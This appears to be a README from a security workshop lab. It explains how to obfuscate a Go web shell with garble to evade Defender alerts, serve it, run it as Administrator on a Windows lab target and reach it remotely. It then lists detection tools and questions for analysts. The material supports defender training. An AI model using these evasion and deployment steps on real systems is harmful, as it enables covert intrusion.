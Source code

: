 # Webshell

Standard web shell that will run on linux or windows, listening for connections.

1. First you need to create a new version of the file with binary obfuscation. In the **Attack Desktop** open a terminal.
2. Change to the workshop directory hosting the ironcat_attack modules.
`cd /home/pslearner/workshop/webshell/ironcat_attack`
3. From here run the generate_payload.sh script agains the /webshell/webshell.go file.
`garble -tiny -literals -seed=random build -ldflags='-s -w' webshell.go`
4. This will generate the new .exe in the folder and host it for you on a simple web server.
`python3 -m http.server`
5. Now, open the **Windows Target** device.
6. Open Firefox.
7. Browse to the Attack Desktop at **http://172.31.24.10:8000**
8. Navigate to the webshell.exe file, and click it to download.
9. Open the command prompt by right clicking the dektop icon and choosing "Run as Administrator"
10. Change directory to the newly downloaded file. `cd c:\Users\pslearner.PS-WIN-1\Downloads\`
11. Run the webshell, using any arguments you would like.  As long as there are two. ex. `webshell.exe meow meow`
12. Open a firefox browser and browse to http://localhost:59679
13. Ta Da! I present to you webshel...with no defender alerts.
14. To properly simulate activity, swap to the Attacker Desktop.
15. Open a browser with the browser icon in the bottom of the screen.
16. Browse to 172.31.24.20:59679.  And you have now access the webshell the same way an attacker would.
17. Run a few commands, like `whoami` or `dir`


## Recommended tools
- Netstat & Powershell
- Wireshark
- Sysmon
- Velocirpator


## Questions to Ask
- Can you identify the malicous connections without prior knowledge? What is odd about the Network Tuple?
- What can you do from a network perpsective to signature this activity across your environment?
- What had to be true for you to access this from outside the device?
- Can you identify any names that would be associated with initial acitivty?

Once you are done answering the questions for yourself, check out some of the IOCs I identify for this activity here:

- [WebShell IOCs](./webshell_iocs.md)



[Become The Threat Home](../../RSAC23-Become-The-Threat/README.md)




